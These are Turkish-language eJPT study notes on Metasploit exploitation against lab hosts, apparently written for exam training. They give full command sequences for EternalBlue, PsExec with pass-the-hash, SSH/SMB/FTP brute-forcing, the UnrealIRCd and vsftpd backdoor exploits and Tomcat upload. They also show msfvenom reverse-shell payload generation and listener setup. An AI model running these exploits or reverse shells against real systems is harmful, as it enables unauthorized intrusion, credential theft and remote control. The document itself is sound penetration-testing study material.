

# 🎯 Metasploit: Exploitation — Yol Haritası & Ders Notları 🚀

Bu bölümde, Metasploit Framework kullanarak bir hedef sisteme sızma (exploitation) aşamasını **ezbere gitmeden, mantığını kavrayarak ve adım adım** öğreneceğiz. eJPT sınavında başarılı olmak için en kritik kural şudur: *Hangi portu tarayacağını veya hangi exploiti atacağını ezberleme; hedef sistemin sana verdiği ipuçlarını takip et!*

---

## 🗺️ Sızma Öncesi Mantıksal İş Akışı (Metodoloji)

Ezberden kaçınmak için her zaman şu 5 adımlı döngüyü takip etmeliyiz:



### 📋 Sızma Aşaması Yol Haritası (İş Akışı)
Metasploit ile sızma gerçekleştirirken takip edilecek adım adım iş akışı sırasıyla şunlardır (Üzerine tıklayarak ilgili adıma gidebilirsiniz):
1. **[1. Adım: Ağ Taraması ve Bilgi Toplama (Scanning & Enumeration)](#step1)**
2. **[2. Adım: Zafiyet Tespiti (Vulnerability Assessment)](#step2)**
3. **[3. Adım: Sızma Aşaması (Exploitation)](#step3)**
   * **[Windows Hedef Sızmaları](#step3-windows)**
     * [MS-17 (EternalBlue)](#step3-ms17)
     * [PsExec (Yetkili Giriş ile Sızma)](#step3-psexec)
   * **[Kimlik Bilgisi Keşfi (Brute Force / Login Scanners)](#step3-creds)**
   * **[Linux Hedef Sızmaları](#step3-linux)**
     * [UnrealIRCd 3.2.8.1 Backdoor](#step3-unreal)
     * [Vsftpd 2.3.4 Backdoor](#step3-vsftpd)
     * [Web Shell / Web App Üzerinden Sızma](#step3-webshell)

---

<div id="step1"></div>

## 1. 🔍 Ağ Taraması ve Bilgi Toplama (Scanning & Enumeration)

Saldırıya başlamadan önce hedef sistemde hangi kapıların (portların) açık olduğunu ve bu kapılarda hangi servislerin çalıştığını belirlememiz gerekir.

### 🗄️ Metasploit Veritabanı Kullanımı (db_nmap)
Taramaları Metasploit veritabanına kaydetmek, elde edilen IP, port ve servis bilgilerini tek bir yerden yönetmenizi sağlar. Sınavda zaman kazanmak için çok önemlidir.

#### 1. Veritabanını Başlatma ve Kontrol Etme (Kali Terminali):
Metasploit veritabanı PostgreSQL kullanır. Konsolu açmadan önce servisi başlatmalıyız:
```bash
# PostgreSQL servisini başlat
systemctl start postgresql

# Metasploit veritabanını ilklendir (İlk kullanımda bir kez yapılır)
msfdb init

# Konsolu başlat
msfconsole
```

Konsol açıldıktan sonra bağlantıyı doğrulamak için:
```bash
msf6 > db_status
[*] Connected to msf. Connection type: postgresql.
```

#### 2. db_nmap ile Tarama Yapma:
Nmap taramasını doğrudan Metasploit içinden çalıştırıp sonuçları otomatik olarak veritabanına kaydedebiliriz:
```bash
# -sV: Servis versiyon tespiti, -O: İşletim sistemi tespiti
msf6 > db_nmap -sV -O 10.10.10.5
```

> [!TIP]
> **Dışarıdan Nmap Çıktısı Aktarma (`db_import`):**
> Eğer taramayı daha önce normal terminalde yapıp XML formatında kaydettiyseniz, veritabanına şu şekilde aktarabilirsiniz:
> `db_import /home/kali/tarama_sonucu.xml`

#### 3. Veritabanını Sorgulama:
Tarama bittikten sonra verileri listelemek için şu komutları kullanırız:
* **`hosts`**: Keşfedilen tüm cihazları listeler.
* **`services`**: Keşfedilen tüm servisleri listeler.

##### 🖥️ Örnek Veritabanı Sorgu Çıktıları
```bash
msf6 > hosts

Hosts
=====

address      mac                name  os_name      os_flavor  os_sp  purpose  info  comments
-------      ---                ----  -------      ---------  -----  -------  ----  --------
10.10.10.5   00:0c:29:4f:8e:12        Windows 7               SP1    client         

msf6 > services

Services
========

host        port  proto  name         state  info
----        ----  -----  ----         -----  ----
10.10.10.5  21    tcp    ftp          open   vsftpd 2.3.4
10.10.10.5  80    tcp    http         open   Apache httpd 2.4.7
10.10.10.5  139   tcp    netbios-ssn  open   Samba smbd 3.X
10.10.10.5  445   tcp    microsoft-ds open   Windows 7 Professional 7601 SP1
```

> [!IMPORTANT]
> **Arama Kolaylığı (Filtreleme):**
> Sadece belirli bir porta veya servise sahip makineleri listelemek için:
> * `services -p 445` (Sadece 445 portu açık olanları getirir)
> * `services -c name,port -p 80` (Portu 80 olanların sadece servis adı ve portunu kolon olarak getirir)

---

### 📡 Port Taraması: `auxiliary/scanner/portscan/tcp`
Eğer hedef ağda Nmap aracı yoksa veya pivot (ağ geçişi) yapıyorsak ve ağın arkasındaki sistemleri taramamız gerekiyorsa Metasploit'in yerleşik TCP tarayıcısını kullanırız.

```bash
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > show options
```
* **RHOSTS**: Taranacak hedef IP veya IP bloğu (Örn: `10.10.10.0/24` veya `10.10.10.5`).
* **PORTS**: Taranacak port aralığı (Örn: `1-1000` veya popüler portlar için `21,22,80,443,445`).
* **CONCURRENCY**: Aynı anda taranacak hedef sayısı (Hızlandırmak için artırılabilir, örn: `50`).

```bash
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 10.10.10.5
msf6 auxiliary(scanner/portscan/tcp) > set PORTS 1-1000
msf6 auxiliary(scanner/portscan/tcp) > run
```

---

### 🔍 Servis Taramaları (Enumeration)
Açık portları bulduktan sonra, bu portlarda çalışan servislerin **tam versiyon bilgisini** almak zafiyet tespiti için en kritik adımdır. Versiyon bilgisi olmadan exploit aramak karanlıkta ateş etmeye benzer.

#### A. SMB Servisi Versiyon Tespiti (`smb_version`)
SMB (Server Message Block) genellikle Windows sistemlerde (ve Samba kurulu Linux'larda) dosya paylaşımı için kullanılır. Çok fazla kritik RCE (Uzaktan Kod Çalıştırma) zafiyeti barındırır.
```bash
msf6 > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 10.10.10.5
msf6 auxiliary(scanner/smb/smb_version) > run
```
* **Çıktı Analizi:** Bize işletim sisteminin tam sürümünü (Windows 7 SP1, Windows Server 2012 vs.) ve SMBv1'in aktif olup olmadığını söyler.

#### B. SSH Servisi Versiyon Tespiti (`ssh_version`)
SSH (Secure Shell) uzaktan yönetim servisidir. Versiyon bilgisi bize işletim sistemi ailesini ve eski sürümlerdeki zafiyetleri gösterir.
```bash
msf6 > use auxiliary/scanner/ssh/ssh_version
msf6 auxiliary(scanner/ssh/ssh_version) > set RHOSTS 10.10.10.5
msf6 auxiliary(scanner/ssh/ssh_version) > run
```

#### C. FTP Servisi Versiyon Tespiti (`ftp_version` & `anonymous`)
Dosya aktarım protokolüdür. Hem versiyon bilgisi hem de şifresiz giriş (Anonymous) açığı taranmalıdır.
```bash
# Versiyon tespiti için:
msf6 > use auxiliary/scanner/ftp/ftp_version

# Anonymous (Şifresiz) giriş izni kontrolü için:
msf6 > use auxiliary/scanner/ftp/anonymous
msf6 auxiliary(scanner/ftp/anonymous) > set RHOSTS 10.10.10.5
msf6 auxiliary(scanner/ftp/anonymous) > run
```

#### D. HTTP Servisi Bilgi Toplama (`http_version` & `title`)
Web sunucusunun türünü (Apache, IIS, Nginx) ve web sayfasının başlığını öğrenmek için kullanılır.
```bash
# Sunucu versiyonu tespiti:
msf6 > use auxiliary/scanner/http/http_version

# Web sayfası title (başlık) tespiti:
msf6 > use auxiliary/scanner/http/title
```

---

<div id="step2"></div>

## 2. 🎯 Zafiyet Tespiti (Vulnerability Assessment)

Keşfedilen servislerde zafiyet olup olmadığını anlamak için doğrudan sisteme exploit atmak risklidir (sistemi çökertebilir veya alarm üretebilir). Bu yüzden önce tarayıcı modüller ve `check` komutu ile doğrulama yapmalıyız.

### 🛡️ Zafiyet Tarayıcı Modüller (Auxiliary Scanners)
Metasploit içerisinde popüler ve kritik zafiyetleri taramak için özel `auxiliary/scanner` modülleri bulunur. Bunlar hedef sistem üzerinde kod çalıştırmaz, sadece zafiyetin varlığını test eder.

* **MS17-010 (EternalBlue) Kontrolü:**
  ```bash
  msf6 > use auxiliary/scanner/smb/smb_ms17_010
  msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 10.10.10.5
  msf6 auxiliary(scanner/smb/smb_ms17_010) > run
  ```
  * **[+]** ile başlayan yeşil bir satır görüyorsanız (`Host is likely VULNERABLE to MS17-010!`), hedef sistem bu açığa karşı korumasızdır demektir.

---

### 🔍 Arama Teknikleri (Search Filters)
Arama yaparken binlerce sonuç arasında kaybolmamak için filtreler kullanmalıyız.

| Filtre Tipi | Açıklama | Örnek Kullanım |
| :--- | :--- | :--- |
| **`platform:`** | Sadece belirtilen işletim sistemini hedefler | `search platform:windows` |
| **`type:`** | Modül tipine göre filtreler (exploit, auxiliary, post) | `search type:exploit` |
| **`cve:`** | CVE yılına veya koduna göre arar | `search cve:2017` |
| **`name:`** | Modül isminde geçen kelimeye göre arar | `search name:unreal` |
| **`rank:`** | Güvenilirlik derecesine göre arar | `search rank:excellent` |

#### 💡 Örnek Kombine Arama Sorgusu:
Windows platformunda, 2017 yılına ait, güvenilirlik derecesi en yüksek (excellent) olan ve SMB protokolünü ilgilendiren exploitleri aramak için:
```bash
msf6 > search type:exploit platform:windows cve:2017 rank:excellent smb
```

---

### 🛑 `check` Komutu ile Güvenli Kontrol
Bir exploit modülünü seçtiğinizde (`use` ettikten sonra), exploit kodunu göndermeden önce hedef makinenin zafiyete sahip olup olmadığını kontrol etmek için `check` komutunu kullanabilirsiniz.

```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.5
msf6 exploit(windows/smb/ms17_010_eternalblue) > check

[*] 10.10.10.5:445 - The target is vulnerable.
```
> [!NOTE]
> Her exploit modülü `check` fonksiyonunu desteklemeyebilir. Desteklemeyen modüllerde `The target does not support check` uyarısı alırsınız. Bu durumda üstteki auxiliary tarayıcıları kullanmak en güvenli yoldur.

---

<div id="step3"></div>

## 3. 💣 Sızma Aşaması (Exploitation)

Sisteme sızma aşamasında hem Windows hem de Linux işletim sistemleri için en sık karşılaşılan senaryoları inceleyelim.

<div id="step3-windows"></div>

### 🪟 Windows Hedef Sızmaları

<div id="step3-ms17"></div>

#### MS-17

##### a. MS17-010 (EternalBlue) - SMB / RCE
Windows Vista, 7, 8, Server 2008 ve 2012 sistemlerde SMBv1 protokolündeki bir bellek yönetim hatasını sömürerek `SYSTEM` yetkisinde kod çalıştırmamızı sağlar.


```bash
# 1. Modülü seç
msf6 > use exploit/windows/smb/ms17_010_eternalblue

# 2. Hedef IP'yi ayarla
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.5

# 3. Payload kontrol et (Varsayılan olarak meterpreter/reverse_tcp gelir)
# Gerekirse değiştirebilirsin:
msf6 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp

# 4. Kendi IP adresini (Saldırgan IP) ayarla (VPN veya eth0 arayüzü adı girilebilir!)
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST tun0
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LPORT 4444

# 5. Exploiti çalıştır
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
```

<div id="step3-creds"></div>

### 🔑 Kimlik Bilgisi Keşfi (Brute Force / Login Scanners)
Eğer hedef sistemde açık portlar bulduysak (örn. 21 FTP, 22 SSH, 445 SMB) ama bu servislerde doğrudan uzaktan kod çalıştırma (RCE) zafiyeti yoksa, geçerli kullanıcı adı ve şifreleri bulmak için kaba kuvvet (Brute Force) taraması yaparız. Metasploit içindeki `login` modülleri bu taramaları hızla gerçekleştirir.

> [!NOTE]
> **Sınavda Ne Zaman Brute Force Yapılır?**
> Eğer `search <servis_adi>` aramamızda doğrudan uzaktan kod çalıştırma (RCE) için bir **exploit modülü bulamadıysak** (veya bulduğumuz exploit `check` adımında çalışmadıysa), ancak bu servisler için **auxiliary/scanner** giriş modülleri varsa kaba kuvvet (Brute Force) taraması yapılır.


#### 1. SMB Giriş Taraması (`smb_login`)
Hedef makinedeki yerel hesapların (örn. Administrator) şifrelerini kırmak veya doğrulamak için kullanılır:
```bash
msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > set RHOSTS 10.10.10.5

# Tek bir kullanıcı adı denemek için:
msf6 auxiliary(scanner/smb/smb_login) > set SMBUser Administrator
# Kullanıcı adı listesi denemek için:
msf6 auxiliary(scanner/smb/smb_login) > set USER_FILE /usr/share/wordlists/metasploit/namelist.txt

# Şifre listesi (wordlist) tanımla:
msf6 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt

# Çalıştır
msf6 auxiliary(scanner/smb/smb_login) > run
```

###### 🖥️ Örnek Başarılı SMB Login Çıktısı:
```text
[*] 10.10.10.5:445      - Attempting login: '.\Administrator:password'
[-] 10.10.10.5:445      - Failed: '.\Administrator:password'
[*] 10.10.10.5:445      - Attempting login: '.\Administrator:Password123!'
[+] 10.10.10.5:445      - Success: '.\Administrator:Password123!' (Workgroup: WORKGROUP)
```

#### 2. SSH Giriş Taraması (`ssh_login`)
SSH servisine yönelik kaba kuvvet saldırısı yapar. Bu modülün en büyük avantajı, **doğru şifreyi bulduğu anda otomatik olarak bir komut satırı (command shell) oturumu açmasıdır!**
```bash
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 10.10.10.5
msf6 auxiliary(scanner/ssh/ssh_login) > set USER_FILE /usr/share/wordlists/metasploit/namelist.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
msf6 auxiliary(scanner/ssh/ssh_login) > run
```

###### 🖥️ Örnek Başarılı SSH Login Çıktısı:
```text
[*] 10.10.10.5:22 - Attempting login: 'root:secret'
[+] 10.10.10.5:22 - Success: 'root:secret'
[*] Command shell session 1 opened (10.10.14.2:38291 -> 10.10.10.5:22) at 2026-07-29 14:15:00
```

#### 3. FTP Giriş Taraması (`ftp_login`)

FTP (File Transfer Protocol - Dosya Aktarım Protokolü), hedef bilgisayar ile aranda dosya yükleyip indirmek (paylaşmak) için kullanılan eski ve şifresiz bir servistir (Varsayılan portu 21). Bu servis üzerindeki hesapları ele geçirmek için kullanılır:
```bash
msf6 > use auxiliary/scanner/ftp/ftp_login
msf6 auxiliary(scanner/ftp/ftp_login) > set RHOSTS 10.10.10.5
msf6 auxiliary(scanner/ftp/ftp_login) > set USER_FILE /usr/share/wordlists/metasploit/namelist.txt
msf6 auxiliary(scanner/ftp/ftp_login) > set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
msf6 auxiliary(scanner/ftp/ftp_login) > run
```

---

<div id="step3-psexec"></div>

#### PsExec Uygulaması (Yetkili Giriş ile Sızma)
Eğer hedefte bir zafiyet bulamadıysak ama yukarıdaki **Kimlik Bilgisi Keşfi** adımlarında (veya sızdırılan konfigürasyon dosyalarından) geçerli bir **kullanıcı adı ve şifre** elde ettiysek, bu bilgileri kullanarak sisteme sızmak için `psexec` modülünü kullanırız.


```bash
# 1. Modülü seç
msf6 > use exploit/windows/smb/psexec

# 2. Parametreleri ayarla
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.10.10.5
msf6 exploit(windows/smb/psexec) > set SMBUser Administrator
msf6 exploit(windows/smb/psexec) > set SMBPass Password123!
msf6 exploit(windows/smb/psexec) > set LHOST tun0

# 3. Çalıştır
msf6 exploit(windows/smb/psexec) > exploit
```
> [!TIP]
> **Pass-the-Hash (Hash ile Giriş):**
> Eğer şifrenin düz metin halini bilmiyorsanız ama NTLM hash değerini ele geçirdiyseniz, `SMBPass` kısmına doğrudan LM:NTLM hash formatını yazarak da oturum açabilirsiniz:
> `set SMBPass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0`

---

<div id="step3-linux"></div>

### 🐧 Linux Hedef Sızmaları

<div id="step3-unreal"></div>

#### UnrealIRCd 3.2.8.1 Backdoor Command Execution
IRC (Internet Relay Chat) sunucu yazılımının bu eski sürümünde, geliştirici sunucusuna sızan saldırganlar tarafından koda bir arka kapı (backdoor) yerleştirilmiştir. Hedefe gönderilen komutların sonuna `AB` harfleri eklendiğinde doğrudan sistem yetkisinde komut çalıştırılabilmektedir.

```bash
# 1. Modülü ara ve seç
msf6 > search unreal_ircd
msf6 > use exploit/unix/irc/unreal_ircd_3281_backdoor

# 2. Parametreleri ayarla
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOSTS 10.10.10.6
# UnrealIRCd varsayılan olarak 6667 portunda çalışır
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RPORT 6667

# 3. Payload seçimi (Linux/Unix sistemlerde genellikle düz shell tercih edilir)
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set PAYLOAD cmd/unix/reverse

# 4. Dinleyici ayarları
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set LHOST tun0
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set LPORT 4444

# 5. Çalıştır
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit
```

<div id="step3-vsftpd"></div>

#### Vsftpd 2.3.4 Backdoor Command Execution
FTP sunucu yazılımı vsftpd'nin 2.3.4 sürümünde, kullanıcı adının sonuna gülen yüz `:)` karakteri eklendiğinde arka planda 6200 portunda bir kabuk (shell) açılmasını sağlayan bir backdoor bulunur.

```bash
# 1. Modülü seç
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor

# 2. Parametreleri ayarla
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.6
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set LHOST tun0

# 3. Çalıştır
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
```

<div id="step3-webshell"></div>

#### Web Shell / Web App Üzerinden Sızma
Eğer hedefte bir web uygulaması çalışıyorsa (örneğin Apache Tomcat yönetim paneli veya zafiyet barındıran bir PHP CMS portalı) ve buraya dosya yükleme yetkimiz varsa, Metasploit payload'larını web sunucusuna yükleyip tetikleyebiliriz.

##### Tomcat Manager Zafiyeti ile Sızma:
```bash
# 1. Tomcat manager paneline dosya yükleyerek sızan modülü seç
msf6 > use exploit/multi/http/tomcat_mgr_upload

# 2. Giriş bilgilerini gir (Sınavda tomcat:tomcat veya admin:admin gibi varsayılanlar çıkabilir!)
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpUser tomcat
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpPass tomcat
msf6 exploit(multi/http/tomcat_mgr_upload) > set RHOSTS 10.10.10.6
msf6 exploit(multi/http/tomcat_mgr_upload) > set RPORT 8080

# 3. Payload olarak Java tabanlı meterpreter seçelim
msf6 exploit(multi/http/tomcat_mgr_upload) > set PAYLOAD java/meterpreter/reverse_tcp
msf6 exploit(multi/http/tomcat_mgr_upload) > set LHOST tun0
msf6 exploit(multi/http/tomcat_mgr_upload) > exploit
```

---

## 📦 Payload Yapılandırması: Staged vs Stageless

Zararlı yükleri (payload) seçerken aralarındaki yapısal farkları bilmek, ağ güvenliği engellerini aşmakta kritiktir.

```
                  STAGED (Aşamalı) PAYLOAD
Saldırgan                   Hedef                       Aşama 1: Küçük stager yüklenir.
   | ----[ Stager (Küçük) ]----> | (Port Açar / Bağlanır)
   | <---[ Stage (Meterpreter) ] | Aşama 2: Asıl büyük Meterpreter kodu ram belleğe indirilir.

                 STAGELESS (Tek Parça) PAYLOAD
Saldırgan                   Hedef
   | -[ Full Payload (Büyük) ]-> | Tek seferde tüm Meterpreter kodu hedefe gönderilir ve çalıştırılır.
```

### 🆚 Farklar Tablosu

| Özellik | Staged Payload (`/` ayrımı) | Stageless (Inline) Payload (`_` ayrımı) |
| :--- | :--- | :--- |
| **Örnek Yol** | `windows/x64/meterpreter/reverse_tcp` | `windows/x64/meterpreter_reverse_tcp` |
| **Boyut** | Çok küçüktür (Örn: ~300 byte). Bellek kısıtlı zafiyetler için mükemmeldir. | Nispeten büyüktür (Örn: ~1 MB). |
| **İletişim** | Aşama aşama yüklenir (Stager -> Stage). Ağ trafiği üretir. | Tek seferde yüklenir ve hemen çalışır. |
> [!IMPORTANT]
> **Ağ Arayüzü Kullanımı (LHOST Ayarı):**
> Sınav esnasında kendi IP adresinizi elle yazarken hata yapma olasılığını sıfıra indirmek için `LHOST` parametresine IP yazmak yerine doğrudan ağ kartının ismini yazabilirsiniz:
> `set LHOST tun0` (veya Kali üzerinde yerel ağdaysanız `set LHOST eth0`)
> Metasploit, exploit anında bu ağ kartının o anki IP adresini otomatik olarak çekecektir.

---


### 🔌 Dışarıdan Bağlantı Yakalama: Msfvenom ve Multi Handler
Eğer hedefte bir dosya yükleme açığı varsa veya sistemi kendi hazırladığımız bir zararlı yazılım (payload) üzerinden ele geçirmek istiyorsak, Kali makinemizde bir payload üretmeli ve Metasploit'te bunu yakalayacak bir dinleyici (listener) kurmalıyız.

#### 1. Msfvenom ile Payload Üretimi (Cheat Sheet)
Sınavda en sık kullanılan dosya tiplerine göre payload üretme şablonları:

* **Windows Target (`.exe`):**
  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o shell.exe
  ```
* **Linux Target (`.elf`):**
  ```bash
  msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f elf -o shell.elf
  ```
* **Web App Target (`.php`):**
  ```bash
  msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f raw -o shell.php
  ```

> [!NOTE]
> `msfvenom` komutunda payload formatı ve platformu çok önemlidir. `LHOST` için VPN ip adresiniz veya doğrudan `tun0` kullanılabilir.

#### 2. Multi Handler ile Bağlantıyı Yakalama
Ürettiğimiz payload hedef makinede çalıştırıldığında (veya tetiklendiğinde) geri dönüş bağlantısını (Reverse Connection) yakalamak için genel dinleyici olan `multi/handler` modülünü kullanırız.

```bash
# 1. Genel dinleyici modülünü seç
msf6 > use exploit/multi/handler

# 2. Ürettiğiniz payload ile BİREBİR AYNI payload yolunu set edin!
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp

# 3. Dinleyici ayarlarını (Msfvenom parametreleri ile aynı) yapın
msf6 exploit(multi/handler) > set LHOST tun0
msf6 exploit(multi/handler) > set LPORT 4444

# 4. Dinleyiciyi arka planda (Job) başlatın
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 10.10.14.2:4444
```

#### 3. Dinleyici ve İş Yönetimi (`jobs`)
Arka planda başlattığımız dinleyiciler ve exploits `jobs` (iş) olarak çalışır.

* **Aktif İşleri Listeleme (`jobs`):**
  ```bash
  msf6 > jobs

  Jobs
  ====

    Id  Name                    Payload                              LPORT
    --  ----                    -------                              -----
    0   Exploit: multi/handler  windows/meterpreter/reverse_tcp      4444
  ```
* **İşi Sonlandırma (`jobs -k <ID>`):**
  Eğer port değiştirmek isterseniz veya eski bir dinleyiciyi kapatıp portu serbest bırakmak isterseniz işi sonlandırmalısınız:
  ```bash
  msf6 > jobs -k 0
  [*] Stopping job 0...
  ```

---


## 📞 Sızma Sonrası Yönetim (Session Management)

Bir sisteme başarılı bir şekilde sızdığınızda, Metasploit bunu bir **oturum (session)** olarak açar. Aynı anda birden fazla hedefi kontrol etmek için oturum yönetim komutlarını çok iyi bilmelisiniz.

### 💤 Oturumu Arka Plana Alma (Background)
Aktif bir terminal (Meterpreter veya düz shell) ekranındayken, bağlantıyı kesmeden ana Metasploit konsoluna dönmek için kullanılır:
```bash
# Meterpreter veya Shell ekranında:
meterpreter > background
# veya klavyeden kısayol:
CTRL + Z  (çıkan soruya 'y' diyerek onaylayın)
```

### 📋 Oturumları Listeleme (`sessions`)
Arka planda açık olan tüm aktif oturumları görüntülemek için:
```bash
msf6 > sessions

Active sessions
===============

  Id  Name  Type                     Information            Connection
  --  ----  ----                     -----------            ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @  10.10.14.2:4444 -> 10.10.10.5:49158 (10.10.10.5)
  2         shell cmd/unix           root @ linux-victim    10.10.14.2:4445 -> 10.10.10.6:52331 (10.10.10.6)
```

### 🔄 Oturuma Yeniden Bağlanma (`sessions -i`)
Arka plandaki belirli bir oturuma (örn: ID'si 1 olan Windows meterpreter oturumuna) geri dönmek için:
```bash
msf6 > sessions -i 1
meterpreter > 
```

### 🚀 Düz Shell Oturumunu Meterpreter'a Yükseltme (`sessions -u`)
Bazen exploitler doğrudan Meterpreter açamaz, düz bir komut satırı (command shell) verirler. Bu kısıtlı oturumu Meterpreter'a yükseltmek için:
```bash
# 2 numaralı düz shell oturumunu yükselt:
msf6 > sessions -u 2
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session 2
[*] Upgrading session 2 to Meterpreter...
[*] Meterpreter session 3 opened (10.10.14.2:4446 -> 10.10.10.6:52332)
```

### 🧹 Oturumu Kapatma (`sessions -k`)
İşiniz biten veya askıda kalan bir oturumu sonlandırmak için:
```bash
# ID'si 2 olan oturumu sonlandır:
msf6 > sessions -k 2
```

---

> [!TIP]
> **Sıradaki Konu:** Hedef sistem üzerinde komut çalıştırma, yetki yükseltme, hashdump alma ve ağda yatayda yayılma gibi ileri düzey işlemler için **[7.Metasploit: Meterpreter.md](file:///Users/onur/ejpt_notes/7.Metasploit:%20Meterpreter.md)** dosyasına geçiş yapabilirsiniz!
